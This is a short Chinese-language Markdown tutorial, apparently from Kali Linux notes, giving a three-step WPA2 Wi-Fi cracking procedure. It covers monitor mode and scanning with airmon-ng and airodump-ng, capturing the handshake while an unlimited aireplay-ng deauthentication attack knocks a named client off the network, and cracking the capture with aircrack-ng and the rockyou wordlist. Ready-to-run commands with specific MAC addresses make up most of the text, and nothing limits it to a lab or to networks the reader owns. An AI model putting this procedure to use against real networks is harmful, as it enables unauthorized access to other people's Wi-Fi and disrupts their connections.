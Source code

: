 总操作流程：
- 1、[开启](#kail-linux-01)
- 2、[抓包](#kail-linux-02)
- 3、[破解](#kail-linux-03)

***

# <a name="kail-linux-01" href="#" >开启</a>

>1、开启监听模式

```shell
ifconfig wlan0 up

airmon-ng start wlan0

ifconfig
```

- 成功标志

![](image/2-1.png)

>2、开始扫描附近的无线网络

```shell
airodump-ng wlan0mon
```
![](image/2-2.png)

# <a name="kail-linux-02" href="#" >抓包</a>

>1、监听与获取

```
airodump-ng wlan0mon --bssid 78:02:F8:27:F8:BB -c 1 -w wpa2 
```
 - c指定频道号
 - bssid指定路由器bssid
 - w指定抓取的数据包保存位置

![](image/2-3.png)

 > 2、发起攻击（新开一个窗口，监听与获取那个窗口不用关闭）

`注意：这步需要有真正连接WiFi的设备，才能进行断开设备握手抓包，不可以不对的密码连接上就断开握包`
 ```shell
 aireplay-ng -0 0 -a 78:02:F8:27:F8:BB -c 30:B4:9E:D7:DA:71 wlan0mon
 ```

- 0表示发起deauthentication攻击， 0为无限
- a指定无线路由器BSSID
- c指定强制断开的设备


- 成功标志

!(image/2-4.png)

# <a name="kail-linux-01" href="#" >破解</a>

```
airmon-ng stop wlan0mon

# 解压字典
gzip -d /usr/share/wordlists/rockyou.txt.gz

cd ~

# 可以看到抓包的-w后的 wpa2的名字的.cap文件

ls wpa*

# 第一次抓包是01，第二次抓包是02
aircrack-ng -a2 -b 78:02:F8:27:F8:BB -w /usr/share/wordlists/rockyou.txt wpa2-01.cap

```
